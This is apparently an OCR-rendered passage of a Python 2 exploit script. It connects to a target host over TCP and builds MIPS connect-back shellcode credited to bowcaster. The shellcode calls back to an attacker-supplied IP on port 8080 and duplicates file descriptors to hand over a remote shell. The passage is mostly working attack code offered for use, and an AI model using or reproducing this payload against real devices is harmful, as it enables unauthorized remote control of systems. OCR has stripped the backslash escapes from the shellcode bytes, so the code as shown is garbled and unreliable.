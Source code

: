 ```
        port = int(arg)
    else:
        continue
try:
    #create an AF_INET, STREAM socket (TCP)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except socket.error, msg:
    print 'Failed to create socket. Error code: ' + str(msg[0]) + ' , Error message : ' + msg[1]
    sys.exit();

try:
    remote_ip = socket.gethostbyname( host )

except socket.gaierror:
    #could not resolve
    print 'Hostname could not be resolved. Exiting'
    sys.exit()

#Connect to remote server
s.connect((remote_ip , port))


# Shellcode From bowcaster

shellcode = string.join([
    "xfaxffx0fx24", # li    t7,-6
        "x27x78xe0x01", # nor   t7,t7,zero
        "xfdxffxe4x21", # addi  a0,t7,-3
        "xfdxffxe5x21", # addi  a1,t7,-3
        "xffxffx06x28", # slti  a2,zero,-1
        "x57x10x02x24", # li    v0,4183
        "x0cx01x01x01", # syscall   0x40404
        "xffxffxa2xaf", # sw    v0,-1(sp)
        "xffxffxa4x8f", # lw    a0,-1(sp)
        "xfdxffx0fx3c", # lui   t7,0xfffd
        "x27x78xe0x01", # nor   t7,t7,zero
        "xe0xffxafxaf", # sw    t7,-32(sp)

    # Connect back port 8080
        "x1fx90x0ex3c", # lui t6,0x901f
        "x1fx90xcex35", # ori t6,t6,0x901f
        "xe4xffxaexaf", # sw    t6,-28(sp)

    # IP Address
        IP_3+IP_4+"x0ex3c",   # lui       t6,&lt;ip&gt;
        IP_1+IP_2+"xcex35",   # ori       t6,t6,&lt;ip&gt;

        "xe6xffxaexaf", # sw    t6,-26(sp)
        "xe2xffxa5x27", # addiu a1,sp,-30
        "xefxffx0cx24", # li    t4,-17
        "x27x30x80x01", # nor   a2,t4,zero
        "x4ax10x02x24", # li    v0,4170
        "x0cx01x01x01", # syscall   0x40404
        "xfdxffx0fx24", # li    t7,-3
        "x27x78xe0x01", # nor   t7,t7,zero
        "xffxffxa4x8f", # lw    a0,-1(sp)
        "x21x28xe0x01", # move  a1,t7
        "xdfx0fx02x24", # li    v0,4063
        "x0cx01x01x01", # syscall   0x40404
        "xffxffx10x24", # li    s0,-1
        "xffxffxefx21", # addi  t7,t7,-1
        "xfaxffxf0x15", # bne   t7,s0,68 &lt;dup2_loop&gt;
        "xffxffx06x28", # slti  a2,zero,-1
```